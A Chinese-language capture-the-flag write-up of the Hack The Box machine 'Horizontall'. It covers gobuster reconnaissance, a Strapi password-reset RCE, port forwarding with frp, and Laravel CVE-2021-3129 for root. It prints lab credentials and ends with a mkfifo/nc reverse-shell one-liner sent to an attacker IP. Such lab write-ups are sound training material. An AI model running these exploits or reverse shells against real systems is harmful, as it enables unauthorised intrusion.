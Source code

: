 ```yaml
---
title: Horizontall
date: 2022-01-09 20:35:15
tags: Hack The box
categories: CMS
---
```


## 信息收集
目标主机只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6ea98b32b994a8f8a0cf9c759db1cee.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接访问web服务，发现是一个正常的网页，扫描目录也没有发现有价值的信息

```bash
gobuster dir -u "http://horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f6b30b44e96d409f934b299e104245eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

那我们将注意力转移到子域名上，对子域名进行深入挖掘，发现了一个子域名，那么我们可以实施旁站注入

```bash
gobuster vhost -u http://horizontall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2cf9c69827e84e87b9616816c817376d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
访问这个页面时发现使用的是`strapi`这个CMS
![在这里插入图片描述](https://img-blog.csdnimg.cn/3724c08fac2d427f80427e762141b930.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们依照这个路径进行路径的扫描，发现存在一个admin目录，我们访问发现会跳转到登录表单上

```bash
gobuster dir -u "http://api-prod.horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/19c0c71aaef14180949dead326bc5c37.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
尝试了一遍SQL注入，发现不存在SQL注入的问题。那我们转向中间件漏洞这个方向上，在EDB上查找到存在一个密码重置的RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/fd1458a74a574a918911ef0a1ae87cfe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/acf1f0e8aea34dacb917647d4ee1f190.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们编辑为一个exp文件，并执行它获取到一个用户交互的shell终端。这里显示用户名和密码是`admin:SuperStrongPassword1`
![在这里插入图片描述](https://img-blog.csdnimg.cn/d93aa5dc52404922aadb13f884d33ccf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录进页面发现存在文件上传点，但是这个并不能进行文件上传getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/8b81cd2146e843a5941549c0bfe46564.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个EXP是存在RCE命令执行的功能的，那我们可以在交互终端上进行反弹一个shell给我们
![在这里插入图片描述](https://img-blog.csdnimg.cn/88522af59e4e42d2bd77c449691c2e62.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们将linpeas.sh脚本下载到目标机器上，尝试看看有没有存在提权的突破点
![在这里插入图片描述](https://img-blog.csdnimg.cn/a7e43564181146d0b3e82efaac54674a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
运行脚本后，但是我们并没有发现任何可提权的点，但是我们查看主机运行的端口可以发现，主机的1337端口正在以root身份运行程序，由于我们用nmap无法扫描出该端口，可以推断主机做了内网端口的转发。
![在这里插入图片描述](https://img-blog.csdnimg.cn/0638be03f2764c3f9db143944921a40f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以使用frp进行内网的端口复用，首先先将`frpc`和`frpc.ini`上传到目标主机上，上传成功后设置好我们本机的ip地址和要转发本地端口和远程端口
![在这里插入图片描述](https://img-blog.csdnimg.cn/5b03de7f59a043c887497c243c893d3d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在目标机器和本机上分别开启监听服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/28bf83b3599646c89714b357a407787f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们访问本机的8000端口，发现是一个由Laravel框架搭建起来的网页程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/8581ba2866b940708a56f715327a7152.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这个应用程序近年发现一个存在RCE的漏洞，在github上可以搜到对应的EXP漏洞利用脚本，并执行可见漏洞利用成功
[https://github.com/LucifielHack/CVE-2021-3129_exploit](https://github.com/LucifielHack/CVE-2021-3129_exploit)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e95aaf54fdb343a199cf7ec03bc27d52.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们可以反弹一个root的shell到本机上

```bash
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4445 >/tmp/f"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d4a8f62eb834cb78ddc826a02de9132.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/db008ce7bfb14ce78f99c0d2534651e1.png)

